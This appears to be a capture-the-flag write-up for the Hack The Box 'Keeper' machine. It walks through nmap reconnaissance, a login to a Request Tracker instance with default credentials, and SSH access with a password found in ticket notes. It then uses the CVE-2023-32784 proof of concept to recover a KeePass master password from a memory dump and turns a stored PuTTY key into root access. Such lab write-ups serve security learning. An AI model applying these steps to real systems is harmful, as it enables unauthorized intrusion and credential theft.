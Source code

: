 # easy - Keeper

## User flag

Ok, from the beginning this machines reveals a host:
```bash
~z➤ curl -s keeper.htb | xurls
http://tickets.keeper.htb/rt/
```

We can realize it is a Nginx web server, only SSH and HTTP ports are open:
```bash
.../htb/p8/keeper➤ sudo nmap -n -Pn -sV -O -T4 keeper.htb
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

Ok, so we get an ugly web page at http://tickets.keeper.htb/rt/
```bash
~z➤ curl -s tickets.keeper.htb/rt | xurls
http://bestpractical.com
http://www.bestpractical.com?rt=4.4.4+dfsg-2ubuntu1
http://www.gnu.org/licenses/gpl-2.0.html
mailto:sales@bestpractical.com

~z➤ curl -s tickets.keeper.htb | ag href
<link rel="stylesheet" href="/rt/NoAuth/css/rudder/squished-1d23a49d22745117f5e143fd93989aaf.css" type="text/css" media="all" />
<link rel="shortcut icon" href="/rt/static/images/favicon.png" type="image/png" />
<link rel="stylesheet" href="/rt/static/css/rudder/msie.css" type="text/css" media="all" />
<a href="http://bestpractical.com"><img
    <span class="hide"><a href="#skipnav">Skip Menu</a> | </span>
  <p id="bpscredits"><span>&#187;&#124;&#171; RT 4.4.4+dfsg-2ubuntu1 (Debian) Copyright 1996-2019 <a href="http://www.bestpractical.com?rt=4.4.4+dfsg-2ubuntu1">Best Practical Solutions, LLC</a>.
  <p id="legal">Distributed under <a href="http://www.gnu.org/licenses/gpl-2.0.html">version 2 of the GNU GPL</a>.<br />To inquire about support, training, custom development or licensing, please contact <a href="mailto:sales@bestpractical.com">sales@bestpractical.com</a>.<br /></p>
```

Ok, they are using a Ticketing system called "bestpractical", version: `4.4.4+dfsg-2ubuntu1`
{{< limg "/i/2023-08-18_11-21.png" "Ticketing web page" >}}

We got in with default credentials, thanks to https://docs.bestpractical.com/rt/4.4.4/README.html :
{{< limg "/i/2023-08-18_11-36.png" "Logged in" >}}

Maybe this is something, while Googling, I found that 4.4.4 has a vulnerability and its CVE:
> Best Practical Request Tracker (RT) 4.2 before 4.2.17, 4.4 before 4.4.5, and 5.0 before 5.0.2 allows sensitive information disclosure via a timing attack against lib/RT/REST2/Middleware/Auth.pm. 

Found these emails while navigating the web page:
- lnorgaard@keeper.htb
- root@localhost

While navigating the webpage, I've found a message (under User Information notes) stating that the new password has been set to "*******". That password is what lnorgaard uses for SSH

We have SSH Access now:
```bash
.../htb/p8/keeper➤ ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb's password:
...
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
```

## Root flag

Ok, there was this ZIP file in the user home dir, I downloaded and got this:
```bash
~z➤ tree
.
├── KeePassDumpFull.dmp
├── passcodes.kdbx
└── RT30000.zip
```

So that name "keepass" says that file is somehow related to KeePass tool, a password manager tool https://keepass.info and there is this CVE-2023-32784 report, where clear-text can be obtained from a memory dump of KeePass. A brandly new created git repo for this :D https://github.com/vdohney/keepass-password-dumper

So let's clone that PoC repo and try to exploit it:
```bash
.../keeper/src/keepass-password-dumper➤ dotnet run KeePassDumpFull.dmp
...
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
...
Found: ●M

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
11.:    d,
...
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Ok, we have now the master passowrd, if we read the documentation of the CVE it says that the password doesn't appear completely, the initial 1 or 2 characters might be missing, so by googling we can infer what the actual password is. Let's try to use KeePass and see the content:
{{< limg "/i/2023-08-18_12-21.png" "KeePass opened" >}}

By opening the item "keeper.htb (Ticketing.... root" I saw this SSH key in the "Notes" section:
```bash
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
...
...
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

So we are closer now, that must be root's ssh key, let's reformat it to use it from Arch Linux:
```bash
z➤ puttygen creds.txt -O private-openssh -o private

z➤ ssh -i private root@keeper.htb
root@keeper:~# ls
root.txt  RT30000.zip  SQL
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## TODOs
- Review in depth how KeePas works and its CVE-2023-32784
